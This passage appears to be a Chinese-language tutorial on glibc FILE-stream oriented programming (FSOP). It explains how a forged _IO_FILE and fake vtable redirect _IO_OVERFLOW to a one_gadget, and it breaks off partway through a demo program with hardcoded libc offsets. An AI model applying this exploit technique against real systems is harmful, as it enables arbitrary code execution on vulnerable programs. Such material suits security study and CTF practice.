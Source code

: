 ```C
        {
          /* Something was added to the list.  Start all over again.  */
          fp = (_IO_FILE *) _IO_list_all;
          last_stamp = _IO_list_all_stamp;
        }
      else
        fp = fp->_chain;
    }

```

&emsp;&emsp;<font size=2>这里出现的`_IO_OVERFLOW`就是我们可以伪造的`vtable`上的函数指针，可以看到`fp`先指向`_IO_list_all`，后面有用`fp = fp->_chain`遍历。要使控制流到达我们的`_IO_OVERFLOW`需要满足：</font></br>

```C
(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
||
(_IO_vtable_offset (fp) == 0
               && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                                    > fp->_wide_data->_IO_write_base)
```

&emsp;&emsp;<font size=2>虽然第二个也可以，但是显然第一个看着就方便很多，我们直接构造为第一个就行：</font></br>

```C
        // fake _mode
        *p = 0;
        // _IO_write_base
        *(p+4) = 0;
        // _IO_write_ptr
        *(p+5) = 1;
        // __overflow in vtable
        *(p+3) = libc_base+one_gadget;
        // fake vtable
        *(ull*)((ull)p+0xd8) = (ull)p;
```

&emsp;&emsp;<font size=2>这里的p指向我们伪造的`_IO_FILE`头部，只要这样构造好：</font></br>

```C
fp->_mode = 0;
fp->_IO_write_base = 0;
fp->_IO_write_ptr = 1;
```

&emsp;&emsp;<font size=2>就能使`_IO_OVERFLOW`得到执行，而`_IO_OVERFLOW`又是`_IO_FILE_plus`中的`vtable`成员。偏移为`0xd8`，因此直接把vtable伪造为一个地址，然后在这个地址的`_IO_OVERFLOW`偏移（0x18)处放上`one_gadget`就可以了。完整demo如下：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <libio.h>

typedef unsigned long long ull;

void setvbufs()
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
int main()
{
	void *p1, *p2, *p3, *p4;
	ull *p;
	ull libc_base = 0;
	ull _IO_list_all = 0x3c5520;
	ull one_gadget = 0xf1147;
```